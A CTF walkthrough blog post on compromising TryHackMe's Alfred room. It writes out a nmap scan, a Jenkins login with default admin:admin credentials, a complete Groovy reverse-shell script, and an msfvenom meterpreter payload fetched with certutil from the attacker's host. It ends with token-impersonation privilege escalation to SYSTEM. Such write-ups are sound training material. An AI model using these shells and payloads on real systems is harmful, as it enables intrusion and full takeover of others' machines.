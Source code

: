 ```yaml
---
title: "Alfred"
datePublished: Sun Aug 06 2023 06:10:18 GMT+0000 (Coordinated Universal Time)
cuid: clkz1o7n0000c0aky82kx74kw
slug: alfred
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1691626028233/7941dfd0-5aa7-495d-b1d1-fd7cc95eae89.png
tags: ctf, penetration-testing, 2articles1week, tryhackme, ctf-writeup

---
```


This walkthrough will go over the [Alfred](https://tryhackme.com/room/alfred) room found on [TryHackMe](https://tryhackme.com). The objective behind this room is to exploit a misconfigured Jenkins server, obtain a reverse shell, and escalate privileges by leveraging a `SeImpersonatePrivilege` capability on a low-level user to obtain `NT AUTHORITY\SYSTEM` level privileges.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301818828/a91e91f2-b0ac-457a-9228-8f0a8cb964d0.png align="center")

### Step 1: Nmap

```bash
nmap -sC -sV -O -p- -Pn alfred.thm --min-rate=1000
```

```plaintext
┌──(root㉿kali)-[~]
└─# nmap -sC -sV -O -p- -Pn alfred.thm --min-rate=1000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-22 17:33 MDT
Nmap scan report for alfred.thm (10.10.70.88)
Host is up (0.17s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  tcpwrapped
8080/tcp open  http       Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2008|7|8.1 (87%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_8.1:r1
Aggressive OS guesses: Microsoft Windows Server 2008 R2 or Windows 8 (87%), Microsoft Windows Server 2008 R2 SP1 (87%), Microsoft Windows Server 2008 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows 7 SP1 (85%), Microsoft Windows 8.1 R1 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 148.82 seconds
```

From this scan, we identified three open ports: 80, 3389, and 8080.

Port 80:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301860116/5d6ce597-3d72-4198-9f5e-77c5e2d5c3e4.png align="center")

Port 8080:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301877545/ab705601-fa4e-412d-a000-b6373ce2c088.png align="center")

### Step 2: Logging In

Trying some default login credentials, we discover that `admin:admin` works.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301895746/23b418b2-8179-4d4f-8d80-a5c67410a555.png align="center")

### Step 3: Initial Foothold

Peeking around the system, we find an area where we can use `groovy` scripts. This will be our way into the box.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301912905/2623a425-11de-4301-a1f0-e7e5b203dddd.png align="center")

We're using a groovy shell which can be found on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy).

```php
String host="10.0.0.1";
int port=4242;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Running this script inside the built-in `Script Console` calls our attack box and drops us into a shell.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301962193/86c8e757-befb-433a-aa36-d828d60ca937.png align="center")

From here we find our `user.txt` flag located in `C:\Users\bruce\Desktop\` .

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691301971137/3296a91b-9046-4d90-b0f7-9433675ce6af.jpeg align="center")

### Step 4: Upgrade to Meterpreter Shell

First, we want to generate our payload using `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.28.215 LPORT=1335 --format exe -o payload.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302000265/483a5146-9d7a-4d33-9db7-05cb9c09007f.webp align="center")

From the victim, we're going to use `certutil` to download it.

```bash
certutil.exe -urlcache -f http://10.13.28.215:8000/payload.exe payload.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302014664/102fb327-07be-4624-bbc0-74e1356897d5.webp align="center")

Now we fire up `msfconsole` and set up our handler to catch the shell.

1. `use exploit/multi/handler`
    
2. `set payload windows/meterpreter/reverse_tcp`
    
3. `set LHOST <ATTACKER_IP>`
    
4. `set LPORT 1335`
    
5. `exploit`
    

Once the `payload.exe` is run on the victim machine, our handler will catch the shell and drop us in.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302062807/2da5c976-0a1c-4fba-8435-640bc686b8b7.webp align="center")

### Step 5: Privesc

Let's see what privileges we have currently by typing `whoami /priv`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302097741/26946bf1-f36b-4081-8b45-95fd0b1716ec.webp align="center")

Nice. We have `SeImpersonatePrivilege`, let's exploit this vulnerability. We can achieve this by using the `incognito module` built into metasploit.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302105355/5dcbd0e2-abf7-4162-830b-97854bada4d0.webp align="center")

Next, we want to impersonate the Administrator's token. We can do this by typing the following command: `impersonate_token "BUILTIN\Administrators"`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302112792/09d85050-8f39-417b-a03b-ac2e11017caf.png align="center")

Now let's migrate to a process with correct permissions. The safest bet is to always migrate to the `services.exe` service.

1. View processes: `ps`
    
2. Find the PID of `services.exe`
    
3. `migrate <PID>`
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302134644/1c59dc1b-ca2f-4246-a8ef-847b6fc8eb70.webp align="center")

Now that we're successfully `NT AUTHORITY\SYSTEM`, let's find our root flag and complete this room.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691302142088/b9e2bb98-1942-4e38-8663-e0c86e10076a.jpeg align="center")

This room was a great introduction to AD pentesting. After going through this, I realized I have a long way ahead of me until I feel comfortable enough to sit down for the PNPT certification by TCM Security. I hope you enjoyed this walkthrough of the [Alfred](https://tryhackme.com/room/alfred) room found on [TryHackMe](https://tryhackme.com), and as always, Happy Hacking.